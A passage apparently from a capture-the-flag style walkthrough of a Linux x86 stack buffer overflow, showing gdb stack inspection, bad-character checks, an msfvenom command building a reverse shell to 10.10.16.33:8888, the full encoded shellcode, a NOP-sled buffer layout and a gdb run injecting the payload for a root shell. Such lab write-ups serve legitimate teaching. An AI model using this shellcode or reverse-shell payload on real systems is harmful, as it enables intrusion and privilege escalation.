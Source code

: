To analyze the stack, we will use the following command to view it

```bash
(gdb) x/2000xb $esp+500
```

Bad Characters: 
```
\x00\x09\x0a\x20\
```

Now that we have found the characters, we can create our Reverse Shell payload to insert into our exploit

```bash
msfvenom -p linux/x86/shell_reverse_tcp -ax86 LHOST=10.10.16.33 LPORT=8888 --bad-chars "\x00\x09\x0a\x20" -f c -o shellcode
```

```bash
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes # <-- Size of our Payload
Final size of c file: 425 bytes
Saved as: shellcode
```

Like how we have seen before in the example, we can adjust our exploit scheme and therefore use it to build our exploit:

```
Buffer = "A" * (2064 - 124 - 95 - 4) = 1841
   NOPS = "\x90" * 124
   Shellcode = "\xda\xc5\xba\x97\x35\xe9\x15\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x7f\xc9\x0b\xe0\x4e\xe9\x3b\xe8\xe3\x4e\x97\x85\x01\xd8\xf6\xea\x63\x17\x78\x99\x32\x17\x46\x53\x44\x1e\xc0\x92\x2c\xab\x38\x75\xaa\xc3\x3e\x75\x90\xab\xb6\x94\x64\xad\x98\x07\xd7\x81\x1a\x21\x36\x28\x9c\x63\xd0\xdd\xb2\xf0\x48\x4a\xe2\xd9\xea\xe3\x75\xc6\xb8\xa0\x0c\xe8\x8c\x4c\xc2\x6b"
   EIP = "\x66" * 4
```

We are almost complete. We now need to identify the return address so we can overwrite the EIP to call our Shellcode and therefore have our shell as root. To do so, we will be following the steps below:

```bash
(gdb) run $(python -c "print 'A' * 1841 + '\x90' * 124 + '\xda\xc5\xba\x97\x35\xe9\x15\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x7f\xc9\x0b\xe0\x4e\xe9\x3b\xe8\xe3\x4e\x97\x85\x01\xd8\xf6\xea\x63\x17\x78\x99\x32\x17\x46\x53\x44\x1e\xc0\x92\x2c\xab\x38\x75\xaa\xc3\x3e\x75\x90\xab\xb6\x94\x64\xad\x98\x07\xd7\x81\x1a\x21\x36\x28\x9c\x63\xd0\xdd\xb2\xf0\x48\x4a\xe2\xd9\xea\xe3\x75\xc6\xb8\xa0\x0c\xe8\x8c\x4c\xc2\x6b' + 'B' * 4")
```

```bash
(gdb) x/2000xb $esp+550

<...>
0xffffd6ea:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd6f2:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd6fa:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd702:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd70a:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd712:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd71a:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd722:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd72a:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd732:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd73a:	0x90	0x90	0x90	0xd9	0xca	0xbe	0xdd	0xe8
<...>
```